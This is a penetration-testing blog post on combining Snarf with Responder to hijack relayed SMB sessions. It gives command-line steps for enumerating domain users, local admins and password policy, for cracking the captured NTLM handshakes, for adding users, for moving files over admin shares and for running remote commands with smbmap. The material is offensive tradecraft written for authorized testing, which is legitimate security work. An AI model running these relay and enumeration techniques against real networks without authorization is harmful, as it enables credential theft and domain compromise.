 ```yaml
---
layout: post
title: SMB Relay with Snarf
subtitle: Making the Most of Your MitM
summary: Leverage Snarf to maximize the value gained from your SMB Relaying, especially without Local Admin
featuredimage: /assets/snarf/snarf-demo.gif
tags:
- smb relay
---
```


SMB Relay is a well-known attack that involves intercepting SMB traffic and relaying the NTLM authentication handshakes to a target host. This post assumes you already understand the basics of SMB Relay (if not I *highly* suggest you check out Mark Baggett's SANS post [SMB Relay Demystified and NTLMv2 Pwnage with Python](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)). SMB Relay has hands down been the most frequent foothold I've found on internal network pentests; however, sometimes the users in my broadcast domain don't seem to have Local Administrator rights on any of the targeted hosts or AV is making the process take a lot longer. This is where [Snarf](https://github.com/purpleteam/snarf) comes to the rescue.


I was on a network once where NBNS/LLMNR traffic was infrequent and administrator rights were limited. After a couple hours of running Responder with Impacket's [smbrelayx](https://github.com/CoreSecurity/impacket/blob/master/examples/smbrelayx.py), I had gotten nowhere on the pathway. None of the poisoned victims were administrators on the targeted hosts. Next I tried Snarf with Responder. Snarf provided NTLM handshakes for every poisoned user, allowed me to enumerate local administrative rights on a number of hosts, and provided me a full domain user list. From this point, I threw the handshakes in John, located a host with excessive administrative rights and ran a one or two guess online password brute force attack. This information eventually led to Domain Administrator rights and access to the crown jewels of the client's sensitive data. The pathway would have taken significantly longer, if it would have even been possible, without Snarf.


Snarf is a tool written in NodeJS by [Victor Mata](http://www.offense-in-depth.com/) and [Josh Stone](http://joshstone.us/) that keeps authenticated sessions alive and allows an attacker to run multiple commands through one successful relay. Snarf waits for the poisoned client to finish its transaction with the server (target), allows the client to disconnect from our host, and keeps the session between our host and the target alive. Now we can run tools through the hijacked session under the privilege of the poisoned user. 


For more info about the inner workings of the tool, check out Victor and Josh's NOLAcon '14 ([slides](http://www.josho.org/software/snarf-nolacon-presentation.pdf) , [demo](https://youtu.be/oBSrcrdRLyA)) and Derbycon 2014 ([video](https://youtu.be/X0S4Uuf3yUs)) presentations.
 

## Installation
Snarf requires nodejs and some attack or tool to get in the middle of an SMB connection. Spiderlabs' [Responder](https://github.com/SpiderLabs/Responder) is my personal favorite tool for this task - clone it as well if you don't already have it.

```plaintext
apt-get install nodejs
git clone https://github.com/purpleteam/snarf.git
```

## Usage
Make sure to start SnarfJS prior to any other tools being used for the SMB Relay attack; (such as Responder). This allows SnarfJS to bind to TCP port 445.

```bash
nodejs snarf.js <your-ip> -d <target-ip>
```

Snarf will output the following command to run to set an iptables rule:

```bash
iptables -t nat -A PREROUTING -p tcp --dport 445 -j SNARF
```

After running the iptables command, navigate in a browser to *127.0.0.1:4001*.

![Expiring a session](/assets/snarf/control.png)

In the top left, under Control, you can change the targeting mode from a single target to multiple targets. When this mode is enabled, SMB connections will be sent round robin at the targets in the list. This is a good method for determining local admin group members on hosts within your broadcast domain.

When a session comes in, it will initially be unavailable for interaction. This is because the victim is still communicating with the target. To make any active session available for selection, click Expire.

![Expiring a session](/assets/snarf/snarf-demo.gif)

You may notice the Hash column above. This is the MS-CHAP authentication handshake used to authenticate to the target. MS-CHAP handshakes cannot be passed like a full NTLM hash; however, we can try to crack the hash. If the authentication protocol is NTLMv1, you can try to use rcracki and rainbow tables to recover the plaintext password. See Foofus' [LM/NTLM Challenge/Response Authentication](http://h.foofus.net/?page_id=63) post for more details. Note that this attack will not work if the users' password is 15 or more characters and/or LM hashing is disabled. If the authentication protocol is NTLMv2, you can use john or oclhashcat to try and crack the password.


Now we have a working session that we can run tools through to investigate the target host and get code execution on if we have local admin rights.


## Tools

To use tools with Snarf, we will point the tool at localhost and enter any text as the username and password options. Snarf will listen for the connection, strip out the authentication details, redirect the tool to the target, and use the currently selected session's privileges. 

### rpcclient

*rpcclient* is a very useful tool in this attack, given the kinds of information that can be harvested. For more commands and ideas, check out these great posts:

* [more with rpcclient](http://carnal0wnage.attackresearch.com/2010/06/more-with-rpcclient.html) - Chris Gates
* [more of using rpcclient to find usernames](http://carnal0wnage.attackresearch.com/2007/08/more-of-using-rpcclient-to-find.html) - Chris Gates
* [Plundering Windows Account Info via Authenticated SMB Sessions](https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions) - Ed Skoudis

Useful Commands:

* lsaenumsid - get some SIDS for further enumeration
* lookupsids - turns SID into username
* queryuser RID - query user information
* getdompwinfo - enumerates password info
* enumdomusers - enumerates domain users
* enumalsgroups builtin - enumerates local groups 


**Enumerate Local Admins:**

```bash
enumalsgroups builtin
queryaliasmem builtin [RID] (ie queryaliasmem builtin 0x220)
lookupsids [SID]
```

**Enumerate Domain Users and Groups:**

(Based on a [tweet by Victor Mata](https://twitter.com/offenseindepth/status/551819778957266948))

*Replace the ##s with appropriate SID info*

```bash
for ((i=0;i<=1100;i++)); do rpcclient -U blah -N -c "lookupsids S-1-5-21-##-##-##-$i” 127.0.0.1 | tee -a domain-enum.txt; done
```

*NOTE: If you get timeout errors, throw `&& sleep 1` before `; done` to sleep for a second between attempts. *

**Enumerate Domain/Local Password Policy:**

```bash
rpcclient -W <workgroup|domain> -U user%pass localhost -c "getdompwinfo"
```

### net *

Use the base command of `net -U user%pass -I 127.0.0.1` with any of the following net commands

Useful commands:

* rpc group list - list local groups
* rpc group MEMBERS "Administrators" - list local admins 
* rpc user - list all users
* rpc user info <user> - list domain groups for specified user
* rpc user add <name> <password> [-F <user flags>] - add user
* rpc user delete <user> - delete user
* rpc share <host> - list shares on target host

*Note: Accessing any hidden shares, like C$, or user account changes require local administrative rights.*

### smbclient
See the [man page](https://www.samba.org/samba/docs/man/manpages/smbclient.1.html)

Connect to the target through Snarf:

```bash
smbclient \\\\127.0.0.1\\C$
```

All the normal Windows directory navigation works: `cd`, `dir`, and `ls`.

You can also upload/download files:


```plaintext
get <remote file name> [local file name]
put <local file name> [remote file name]
```

*Note: Accessing any hidden shares, like C$, require local administrative rights.*

### smbmap
[smbmap](https://github.com/ShawnDEvans/smbmap) is an SMB enumeration and interaction tool that can find weak share permissions and execute commands in a PSExec-like fashion. Note that this execution style writes to disk, so it may not fly on a Red Teaming engagement.

```bash
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" /domain'
```

*Note: Accessing the C$ share or executing commands through any hidden shares require local administrative rights.*

## Final Thoughts

Snarf is an awesome tool to use on internal pentest/red team engagements due to its poison once, exploit many abilities. This means a tester could stand up Snarf and Responder, poison one user, kill Responder, and enumerate a lot of information about the target domain with very minimal end-user impact. Personally, I feel like the next steps in using this tool are to determine, or create, a method to get remote code execution leveraging these tools without touching disk, allowing for usage on red team engagements.